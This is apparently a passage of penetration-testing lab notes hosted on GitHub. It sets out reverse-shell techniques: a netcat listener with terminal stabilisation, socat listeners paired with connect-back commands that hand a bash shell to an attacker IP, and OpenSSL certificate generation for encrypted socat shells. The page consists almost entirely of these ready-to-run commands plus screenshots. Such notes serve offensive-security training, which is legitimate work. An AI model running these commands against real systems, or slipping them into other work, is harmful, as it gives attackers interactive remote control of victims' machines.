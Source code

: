 ```bash
# Listener (Attacker)
rlwrap nc -lvnp 8080

# background session with Ctrl+Z then restore session back with: 
stty raw -echo;fg
```

<img width="1784" height="550" alt="image" src="https://github.com/user-attachments/assets/44f874f7-d9ed-4b34-b0e7-55fcfc5e50b2" />

---

1. **Socat method**

```bash
# Listener (Attacker)
socat TCP-L:8080 -

# Connect Back (Target)
socat TCP:10.10.142.87:8080 EXEC:"bash -li"
```

<img width="1678" height="631" alt="image" src="https://github.com/user-attachments/assets/e1051fbe-000d-4f6b-8159-77abf518da24" />

Socat with the tty technique

```bash
# Listener
socat TCP-L:443 FILE:`tty`,raw,echo=0

# Connect Back
socat TCP:10.10.142.87:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

<img width="1759" height="872" alt="image" src="https://github.com/user-attachments/assets/44c930f7-0502-4ecd-89b6-fb3866ba67fc" />

**Note**: In the Attacker-1 (left terminal), started the reverse shell, and the Attacker-2 caught the connection, as for the Target terminal (Upper right), echoes the Attacker-1 commands

**Socat Encryption Technique**

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

**Reverse-shell (Linux)**

```bash
# Listener 
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 -

# Connect Back
socat OPENSSL:10.10.21.122:4444,verify=0 EXEC:/bin/bash
```

<img width="1760" height="692" alt="image" src="https://github.com/user-attachments/assets/40bdb1fd-1e4c-4b5d-bf9e-02549bc999e2" />
